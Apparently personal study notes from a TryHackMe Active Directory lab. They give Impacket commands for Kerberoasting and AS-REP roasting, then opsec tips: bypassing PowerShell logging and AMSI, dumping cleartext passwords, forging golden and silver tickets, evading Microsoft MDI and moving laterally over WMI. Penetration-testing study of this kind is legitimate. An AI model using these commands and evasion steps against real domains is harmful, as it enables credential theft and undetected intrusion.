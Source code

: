 # Kerberoasting
`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation`*Enumerating for SPN Accounts*
`python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP THM.red/thm -request-user svc-user `*Requesting a TGS Ticket as SPN Account*


# AS-REP Roasting
`python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip MACHINE_IP thm.red/ -usersfile /tmp/users.txt`*Performing an AS-REP Roasting Attack against Users List*

###### Needed to be merged with the above ones #######
### General way 1: of opsec.
# Step 1: Bypass script block logging and all the other logging staff
# Step 2: Bypass AMSI
# Step 3: Do whatever

### General way 2: of opsec.
# When an admin is running as a service on a machine we can extract clear text pass with sekurlsa::ekeyes.

### Thinks to remember 3: opsec
If our target is 2016 and before then after using a golden ticket or a silver ticket we cant use winrs or powershell remoting however u can still run commands using wmi (`gwmi -C win32_computersystem -ComputerName dcorp-dc`). If its 2019 ++ you have no problem.

### Thinks to remember 4: opsec
Using silver ticket might be fancy becuase Miscrosoft MDI doesnt care about silver tickets and in some cases we dont touch the DC but our persistence period by default is 30 days for computer accounts. Also have in mind that if we want to do multiple things even when targeting a DC(not recommended) we have to create different tickets for different purposes(ex: HOST to create a schtask)

### Thinks to remember 5: opsec
If you try to create a silver ticket and use /service:HTTP in order to use winrm it wont work if its 2016.

###  Thinks to remember 6: opsec
When you get access to a new user it is worth checking if he/she has local admin access to any other machine
